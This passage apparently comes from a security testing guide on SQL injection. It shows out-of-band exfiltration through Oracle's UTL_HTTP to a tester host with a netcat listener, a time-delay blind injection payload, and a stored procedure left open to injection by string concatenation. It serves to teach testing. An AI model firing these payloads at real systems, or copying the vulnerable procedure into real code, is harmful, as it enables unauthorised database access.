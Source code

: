 In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make an HTTP GET request containing the return from the query `SELECT user FROM DUAL`. The tester can set up a web server (e.g. Apache) or use the Netcat tool:

```bash
/home/tester/nc –nLp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

#### Time Delay Exploitation Technique

The time delay exploitation technique is very useful when the tester finds a [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation, in which nothing is known about the outcome of an operation. This technique consists of sending an injected query and in case the conditional is true, the tester can monitor the time taken for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`https://www.example.com/product.php?id=10`

The malicious request would be (e.g. MySql 5.x):

`https://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

In this example the tester is checking whether the MySql version is 5.x or not, making the server to delay the answer by 10 seconds. The tester can increase the delay time and monitor the responses. The tester also doesn’t need to wait for the response. Sometimes he can set a very high value (e.g. 100) and cancel the request after some seconds.

#### Stored Procedure Injection

When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.

Consider the following SQL Server Stored Procedure:

```sql
Create procedure user_login @username varchar(20), @passwd varchar(20)
As
Declare @sqlstring varchar(250)
Set @sqlstring  = ‘
Select 1 from users
Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
exec(@sqlstring)
Go
```
